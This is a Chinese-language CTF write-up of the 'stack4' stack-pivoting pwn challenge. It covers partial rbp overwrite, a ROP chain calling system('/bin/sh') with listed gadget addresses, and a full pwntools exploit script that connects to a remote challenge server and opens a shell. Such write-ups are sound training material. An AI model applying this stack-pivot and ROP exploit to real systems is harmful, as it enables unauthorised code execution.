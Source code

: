 ```yaml
---
title: Lilac Pwn stack4-stack_pivoting Writeup
date: 2020-11-01 14:16:03
tags:
- CTF刷题
- PWN
- ROP
- 栈溢出
- 栈迁移
categories: 竞赛
mathjax: true
---
```


[题目链接](http://pwn.hitctf.cn:8000/challenges)

<!-- more -->

![20201101102142](https://raw.githubusercontent.com/WuTao18/images/master/notes/2020/20201101102142.png)

文件类型是 64 位 ELF。

![20201101102217](https://raw.githubusercontent.com/WuTao18/images/master/notes/2020/20201101102217.png)

开了 NX 保护。

用 IDA64 查看一下：

![20201101102400](https://raw.githubusercontent.com/WuTao18/images/master/notes/2020/20201101102400.png)

![20201101102415](https://raw.githubusercontent.com/WuTao18/images/master/notes/2020/20201101102415.png)

可以看到 print_name 最多只能溢出 2 个字节。

也就是说只能覆盖 rbp 的最低 2 个字节。

此时需要使用**栈迁移**的技巧。

此题相对容易，因为已经给出了 buf 的地址，我们只需要把 main 函数栈帧的 rbp 迁移到 buf 处，然后在 buf 处构造 ROP chain 即可。

原来 print_name 栈帧的栈底指向 main 栈帧的栈底。

```
                        
            high address      
                        +--------------------+ <--+ 
               +------> |    previous rbp    |    |
               |        +--------------------+    |
               |        |       ......       |    |
               |        +--------------------+    | main()
               |        |        buf         |    |
               |        +--------------------+    |
               |        |   return address   |    |
               |        +--------------------+ <--+
               +------- |    previous rbp    |    |
                        +--------------------+    |
                        |       ......       |    | print_name()
                        +--------------------+    |
                        |        dest        |    |
                        +--------------------+ <--+
            low address       

```

覆盖后 main 栈帧的栈底迁移到 buf，然后在 buf 上构造 ROP chain，这样 main 函数返回后就去执行 ROP chain 了。

```
                        
            high address      
                        +--------------------+      
                        |    previous rbp    |     
                        +--------------------+     
                        |       ......       |     
                        +--------------------+     
                        |      ROP chain     |     
                        +--------------------+ <--+     
               +------> |        buf         |    |
               |        +--------------------+    | main()
               |        |   return address   |    |
               |        +--------------------+ <--+
               +------- |    previous rbp    |    |
                        +--------------------+    |
                        |       ......       |    | print_name()
                        +--------------------+    |
                        |        dest        |    |
                        +--------------------+ <--+
            low address       

```

```shell
objdump -d stack4 | grep 'plt'
```

![20201101122715](https://raw.githubusercontent.com/WuTao18/images/master/notes/2020/20201101122715.png)

system 函数的地址为 `0x400600`。

```shell
ROPgadget --binary stack4 --only "pop|ret" | grep "rdi"
```

![20201101122941](https://raw.githubusercontent.com/WuTao18/images/master/notes/2020/20201101122941.png)

`pop rdi; ret` 的地址为 `0x4008a3`。

```shell
ROPgadget --binary stack4 --string "/bin/sh"
```

![20201101123241](https://raw.githubusercontent.com/WuTao18/images/master/notes/2020/20201101123241.png)

字符串 "/bin/sh" 的地址为 `0x4008c9`。

所以 payload 为 `fake rbp (随便填)` + `pop rdi; ret` + `"/bin/sh"` + `system` + `填充16个字节` + `buf 的地址`

print_name 中 dest 与 rbp 的距离为 48 个字节，`fake rbp (随便填)` + `pop rdi; ret` + `"/bin/sh"` + `system` 有 32 个字节，因此还需填充 16 个字节才到 rbp。然后 `buf 的地址` 只能覆盖 rbp 的最低两个字节，但是足够了，因为 main 函数中 buf 到 rbp 的距离为 256 个字节。

exp 如下：

```python
from pwn import *
import re

# context.log_level = "debug"

# p = process("./stack4")
p = remote("47.94.239.235", 2024)

p.recvuntil(":")
buf_addr = p.recvuntil("\n")
buf_addr = int(buf_addr[-15:-1], 16) # buf 的地址
# print(hex(addr))

poprdi_addr = 0x4008a3
binsh_addr = 0x4008c9
system_addr = 0x400600


payload = flat([p64(0xdeadbeef), p64(poprdi_addr), p64(binsh_addr), p64(system_addr), 'a'*16, p64(buf_addr) ])

p.sendlineafter("plz", payload)

p.interactive()

```

![20201101124821](https://raw.githubusercontent.com/WuTao18/images/master/notes/2020/20201101124821.png)

成功拿到 shell。